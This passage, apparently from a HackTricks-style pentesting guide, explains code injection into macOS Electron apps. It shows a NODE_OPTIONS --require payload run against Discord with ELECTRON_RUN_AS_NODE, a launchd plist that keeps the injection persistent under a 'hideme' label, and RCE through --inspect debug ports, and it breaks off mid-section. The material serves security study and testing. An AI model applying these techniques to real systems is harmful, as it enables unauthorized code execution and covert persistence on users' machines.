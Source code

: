 ## RCE with `NODE_OPTIONS`

You can store the payload in a different file and execute it:

{% code overflow="wrap" %}
```bash
# Content of /tmp/payload.js
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator');

# Execute
NODE_OPTIONS="--require /tmp/payload.js" ELECTRON_RUN_AS_NODE=1 /Applications/Discord.app/Contents/MacOS/Discord
```
{% endcode %}

{% hint style="danger" %}
If the fuse **`EnableNodeOptionsEnvironmentVariable`** is **disabled**, the app will **ignore**  the env var **NODE\_OPTIONS** when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.

If you don't set **`ELECTRON_RUN_AS_NODE`** , you will find the **error**: `Most NODE_OPTIONs are not supported in packaged apps. See documentation for more details.`
{% endhint %}

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
           <key>NODE_OPTIONS</key>
           <string>--require /tmp/payload.js</string>
    </dict>
    <key>Label</key>
    <string>com.hacktricks.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```

## RCE with inspecting

According to [**this**](https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f), if you execute an Electron application with flags such as **`--inspect`**, **`--inspect-brk`** and **`--remote-debugging-port`**, a **debug port will be open** so you can connect to it (for example from Chrome in `chrome://inspect`) and you will be able to **inject code on it** or even launch new processes.\
For example:
